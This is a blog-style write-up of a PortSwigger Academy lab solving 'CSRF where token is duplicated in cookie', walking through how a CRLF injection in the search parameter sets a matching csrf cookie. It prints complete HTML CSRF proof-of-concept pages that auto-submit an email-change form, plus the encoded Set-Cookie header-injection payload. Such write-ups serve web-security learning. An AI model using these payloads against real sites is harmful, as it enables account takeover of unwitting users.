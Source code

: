 ```yaml
---
layout: post
title:  "CSRF where token is duplicated in cookie"
date:   2024-10-02 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login using the credentials `wiener:peter` provided in the lab objective and now I've updated the email.. Intercepted the request and looking into the request.. we have CSRF token in two places.. One in the header under cookies and another one in the POST body as a parameter 

![]({{ site.baseurl }}/assets/images/csrf-13.png) 

I've updated one of the csrf token kinda just changed the last value on `csrf` inside the `Cookie:` and as a response says that `CSRF token is invalid`

![]({{ site.baseurl }}/assets/images/CSRF-14.png)

Found that when we both values of the CSRF token are same and then request passes through 

![]({{ site.baseurl }}/assets/images/csrf-15.png) 

Let's generate the CSRF POC and keep that aside.. because we have a way to manipulate the body params `csrf` value.. But we need to find a way to inject the values of csrf inside the Cookie

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa900f504b8b225811be8b8001400c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

We have identified a crlf vulnerability in the home page search functionality and may able to inject the custom values for `csrf` inside `Cookie`

![]({{ site.baseurl }}/assets/images/csrf-16.png) 

Let's make the search request as an `<img src>` and replace it with `<script>` in the previously generated POC 

```html
<img src="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

Here is how the complete payload looks like 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

This Should solve the lab but the portswigger didn't mark it as solved.. but after a decade, It marked as solved 

![]({{ site.baseurl }}/assets/images/csrf-17.png) 